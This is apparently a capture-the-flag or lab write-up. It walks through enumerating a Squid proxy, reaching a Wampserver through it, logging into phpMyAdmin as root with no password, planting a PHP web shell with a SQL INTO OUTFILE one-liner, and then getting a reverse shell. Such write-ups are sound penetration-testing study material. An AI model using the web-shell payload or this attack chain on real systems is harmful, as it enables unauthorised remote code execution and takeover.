# Network Enumeration

```bash
PORT     STATE SERVICE
3128/tcp open  squid-http
```

# Port enumeration

Check on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid).Squid is a proxy tool, so use the [spose.py](https://github.com/aancw/spose)with the proxy to try to get information.



According to the result can know there are 2 ports opened.

Use SwitchyOmega to access 8080 port with proxy.



Then the `Wampserver` main page will show.



The alias include the `adminer`, `phpmyadmin`, `phpsysinfo`.

Check the phpinfo, the Document Root is `c:/wamp/www`.



Try to login `phpmyadmin` with root without password.



It can be nornal access.



Use MySQL to create a simple php file to get RCE.



```sql
select "<?php echo shell_exec($_GET['cmd']); ?>" into OUTFILE 'c:/wamp/www/webshell.php'
```

Successful running.



Then navigate to `webshell.php`



Return the command content.



Download `reverse_shell_windows.php` to target.





Then navigate to `reverse_shell_windows.php`, get reverse shell, needn't  PE.



